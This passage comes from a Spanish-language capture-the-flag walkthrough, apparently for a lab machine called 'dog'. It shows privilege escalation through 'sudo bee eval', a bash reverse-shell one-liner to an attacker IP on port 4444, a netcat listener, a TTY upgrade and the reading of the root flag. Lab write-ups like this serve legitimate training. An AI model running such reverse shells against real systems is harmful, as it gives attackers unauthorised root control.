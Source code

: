 
## Root Time

Existe una forma de ejecutar comandos a nivel de sistema utilizando la opción `eval`, construiremos un comando que envíe una consola a nuestra máquina atacante, pero al ejecutarlo con `sudo`, la enviaremos como el usuario `root`

~~~ bash
johncusack@dog:~$ sudo bee --root=/var/www/html/ eval "system('bash -c \'bash -i >& /dev/tcp/10.10.14.98/4444 0>&1\'');"
~~~

> Antes de ejecutar el comando anterior, debemos iniciar un listener con `netcat`, donde en mi caso he elegido el puerto `4444`
{: .notice--warning}

~~~ bash
nc -lvnp 4444                                                                 
listening on [any] 4444 ...
~~~

Al ejecutar la reverse shell, en nuestro listener deberíamos recibir la consola como `root`

~~~ bash
nc -lvnp 4444                                                                 
listening on [any] 4444 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.58] 51806
root@dog:/var/www/html# id    
id
uid=0(root) gid=0(root) groups=0(root)
~~~

Podemos hacer un nuevo tratamiento de la TTY para poder operar con una consola más interactiva que nos permita hacer `Ctrl + C` y `Ctrl + L` para limpiar la pantalla

~~~ bash
root@dog:/var/www/html# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@dog:/var/www/html# ^Z
[1]  + 145213 suspended  nc -lvnp 4444
root@parrot exploits # stty raw -echo; fg
[1]  + 145213 continued  nc -lvnp 4444
                                      reset xterm
~~~

Solamente nos faltaría ver la última flag ubicada en el directorio `/root`

~~~ bash
root@dog:/var/www/html# cat /root/root.txt 
cat /root/root.txt
55c...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> The best way out is always through.
> — Robert Frost
{: .notice--info}
